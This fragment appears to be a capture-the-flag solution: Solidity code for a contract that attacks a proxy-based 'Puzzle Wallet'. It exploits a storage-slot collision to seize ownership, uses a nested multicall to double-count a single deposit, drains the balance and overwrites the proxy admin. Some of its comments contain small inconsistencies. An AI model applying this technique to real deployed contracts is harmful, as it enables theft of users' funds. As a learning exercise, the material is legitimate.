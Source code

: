```javascript

    function exploit() payable public{
        proxy.proposeNewAdmin(address(this)); // Changes pendingAdmin in Proxy and overwrites owner in Wallet

        wallet.addToWhitelist(address(this));

        // To set maxPrice ==> Wallet Balance should be 0, But Initiall Wallet Balance : 1000000000000000 (0.001 ETH)
        // Make Wallet Balance 0

        // use multicall to call deposit and multicall again with 0.001 eth

        bytes[] memory _depositSelector = new bytes[](1) ;
        _depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        
        bytes[] memory _nestedMulti = new bytes[](2);
        _nestedMulti[0] = abi.encodeWithSelector(wallet.deposit.selector);
        _nestedMulti[1] = abi.encodeWithSelector(wallet.multicall.selector, _depositSelector);  // multicall calldata
        // [deposit selector, multicall selector [deposit] ]
        wallet.multicall{value: 0.001 ether}(_nestedMulti);

        // Wallet Balance : 0.002 ETH
        // Balance[msg.sender] = Balance[Attacker] = 0.003 ETH

        // Call Execute function with amount 0.002

        wallet.execute(address(this), 0.002 ether, "");


        // Now Wallet Balance ==> 0

        // wallet.setMaxBalance(uint256(uint160(address(this))));
        
        wallet.setMaxBalance(uint256(uint160(address(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602)))); // sets proxyAdmin
    }

    receive() payable external{}
}
/*
            // Proxy                            // Wallet
        address public pendingAdmin;    |  address public owner;
        address public admin;           |  uint256 public maxBalance;
*/

```

To run script : 
